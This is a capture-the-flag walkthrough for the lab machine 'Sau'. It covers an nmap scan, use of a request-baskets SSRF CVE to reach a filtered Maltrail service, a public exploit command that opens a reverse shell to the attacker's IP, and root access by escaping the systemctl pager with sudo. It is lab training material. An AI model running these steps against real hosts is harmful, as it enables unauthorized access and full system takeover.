

# Sau

User FLAG
----

So if we start doing an scan

```
nmap -T4 --min-rate 5000 -vvv -o all 10.10.11.224
```

We get the following result

```shell
# Nmap 7.80 scan initiated Sun Feb 18 02:51:22 2024 as: nmap -T4 --min-rate 5000 -vvv -o all 10.10.11.224
Nmap scan report for 10.10.11.224 (10.10.11.224)
Host is up, received conn-refused (0.25s latency).
Scanned at 2024-02-18 02:51:22 -03 for 1s
Not shown: 990 closed ports
Reason: 990 conn-refused
PORT      STATE    SERVICE        REASON
22/tcp    open     ssh            syn-ack
80/tcp    filtered http           no-response
987/tcp   filtered unknown        no-response
1089/tcp  filtered ff-annunc      no-response
1277/tcp  filtered miva-mqs       no-response
1309/tcp  filtered jtag-server    no-response
1334/tcp  filtered writesrv       no-response
3918/tcp  filtered pktcablemmcops no-response
49159/tcp filtered unknown        no-response
55555/tcp open     unknown        syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Feb 18 02:51:23 2024 -- 1 IP address (1 host up) scanned in 0.97 seconds
```

Port 55555 is running with https://github.com/darklynx/request-baskets

After searching for a CVE we find [this](https://github.com/entr0pie/CVE-2023-27163)

Port 80 is filtered, so we can use the following config to bypass the filter



With this configuration we can do a `curl http://10.10.11.224:55555/<basket>` and we get an HTML page, reading from there we can see a `Powered by Maltrail` which is a tool to monitor network traffic.

If we google `maltrail exploit` we get a [github repo](https://github.com/spookier/Maltrail-v0.53-Exploit)

And with this we get a reverse shell

```shell
python3 exploit.py <YOUR-IP> <NC-PORT> http://10.10.11.224:55555/<BASKET>
Running exploit on http://10.10.11.224:55555/<BASKET>/login
```

Once inside we get the user flag 

```
cat /home/puma/user.txt
```

Root FLAG
----

After that we start digging to escalate privileges, first we do `sudo -l` and we get the following

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Then we do `sudo systemctl status trail.service` and we get something like this

```
● trail.service - Maltrail Sensor
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2024-02-18 00:40:00 -03; 1min 3s ago
   Main PID: 1234 (python3)
      Tasks: 1 (limit: 1137)
     Memory: 3.3M
     CGroup: /system.slice/trail.service
             └─1234 /usr/bin/python3 /opt/maltrail/sensor.py
```

Here we can write `!sh` and we get a shell as root

Next we can get the root flag

```
cat /root/root.txt
```

## Links
- https://github.com/entr0pie/CVE-2023-27163
- https://github.com/spookier/Maltrail-v0.53-Exploit
- https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7
- https://notes.sjtu.edu.cn/s/MUUhEymt7#
- https://gtfobins.github.io/gtfobins/systemctl/